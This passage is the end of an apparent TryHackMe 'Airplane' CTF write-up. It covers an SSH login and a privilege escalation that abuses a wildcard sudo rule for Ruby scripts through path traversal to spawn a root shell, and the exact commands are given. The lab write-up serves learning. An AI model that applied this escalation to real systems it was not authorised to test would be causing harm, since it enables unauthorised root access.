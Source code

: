 ![SSH setup](/images/THM-Airplane/SSH_setup.png)

On our local machine we login as carlos with 

```
ssh -i carlos carlos@airplane.thm
```

![SSH login as carlos](/images/THM-Airplane/shh_login_carlos.png)

## Privilege Escalation

With `sudo -l` we learn that `carlos` is allowed to run any Ruby script located in `/root` as the root user without providing a password.

![sudo -l command](/images/THM-Airplane/sudo-l.png)

This is easily abused by creating our own ruby file containing a command to spawn a shell, moreover because the wildcard `*` we can execute our file even if it is outside of `/root`.

```
echo 'exec "/bin/sh"' > root.rb

sudo /usr/bin/ruby /root/../home/carlos/root.rb
```

After executing the two commands above, we gain access to the root account and can read the `root.txt` file.

![root flag](/images/THM-Airplane/root_flag.png)

Thank you for taking the time to read this write up, I hope you found it useful.
